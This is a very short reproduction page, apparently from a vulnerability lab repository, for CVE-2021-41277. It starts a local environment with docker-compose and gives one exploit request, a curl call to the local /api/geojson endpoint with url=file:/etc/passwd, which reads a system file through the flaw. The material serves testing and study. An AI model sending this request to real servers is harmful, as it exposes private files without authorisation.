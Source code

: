 
# CVE-2021-41277

## 启动环境


```php
docker-compose up -d

```



## curl 127.0.0.1:3000/api/geojson?url=file:/etc/passwd


